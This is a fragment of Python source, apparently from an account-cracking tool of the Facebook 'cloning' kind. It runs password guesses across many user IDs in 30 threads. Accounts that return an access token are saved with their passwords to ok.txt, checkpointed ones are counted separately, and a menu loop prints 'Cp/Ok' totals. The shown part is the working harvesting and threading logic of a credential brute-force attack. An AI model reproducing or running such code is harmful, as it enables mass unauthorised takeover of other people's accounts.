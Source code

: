 		                                                        cp.close()

		                                                        cps.append(uid)

		                                                    else:

		                                                        if 'access_token' in d:

		                                                            print("\x1b[1;97m[SAM-OK] "+uid+" | "+pass7+"\x1b[1;0m")

		                                                            ok=open("ok.txt","a")

		                                                            ok.write(uid+" | "+pass7+"\n")

		                                                            ok.close()

		                                                            oks.append(uid)

		except:

			pass

	p = ThreadPool(30)

	p.map(main, id)

	print (" ")

	print (47*"-")

	print ("-> Your Process has completed Successful")

	print ("-> Total Cp/Ok : "+str(len(cps)) + "/"+str(len(oks)))

	print (47*"-")

	raw_input("\t\x1b[0;91mPress enter to main menu back")

	menu()

if __name__ == '__main__':

    main()
